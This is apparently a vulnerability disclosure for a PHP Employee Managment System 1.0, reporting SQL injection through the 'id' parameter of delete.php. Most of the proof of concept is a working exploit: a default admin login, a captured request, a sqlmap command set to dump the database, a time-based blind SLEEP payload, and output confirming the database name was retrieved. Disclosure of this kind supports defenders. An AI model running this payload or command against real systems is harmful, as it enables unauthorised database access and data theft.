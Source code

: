 # Employee Managment System - SQL Injection - 4
+ **Exploit Title:** Employee Managment System - SQL Injection - 4
+ **Date:** 2024-30-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/employee-management-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/4af079c9-ab82-4b2a-a133-be6989c7f70e
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Employee Managment System 1.0 allows SQL Injection via the 'id' parameter at "/370project//delete.php?id=110". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/370project//alogin.html"
+ Login with `admin` : `admin`
+ Press the View Employee tab, select any employee and press the delete button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /370project//delete.php?id=110 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=110 AND (SELECT 8309 FROM (SELECT(SLEEP(5)))cisU)
---
[05:36:08] [INFO] testing MySQL
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[05:36:16] [INFO] confirming MySQL
[05:36:16] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[05:36:26] [INFO] adjusting time delay to 2 seconds due to good response times
[05:36:26] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[05:36:26] [INFO] fetching current database
[05:36:26] [INFO] resumed: 370project
current database: '370project'

```
+ current database: `370project`

![Ekran görüntüsü 2024-01-30 141037](https://github.com/BurakSevben/CVEs/assets/117217689/77a1d851-d291-416f-b5b0-2ba488fe9fa9)
